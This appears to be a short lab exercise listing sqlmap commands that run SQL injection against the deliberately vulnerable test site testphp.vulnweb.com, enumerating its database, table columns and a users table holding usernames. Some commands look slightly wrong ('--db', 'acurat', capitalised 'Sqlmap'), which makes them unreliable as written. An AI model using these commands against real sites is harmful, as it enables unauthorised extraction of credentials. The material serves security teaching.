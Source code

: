 1.	Install Kali linux on virtual box and type sqlmap -h in terminal to view commands 
2.	Find the database name used in the given website by following command 
sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --db
3.	Find the schema of the table used in given Database by following command
Sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acurat -T users --columns --random-agent
4.	Obtaining username and password from database by following command
Sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acurat -T users -C uname --dump
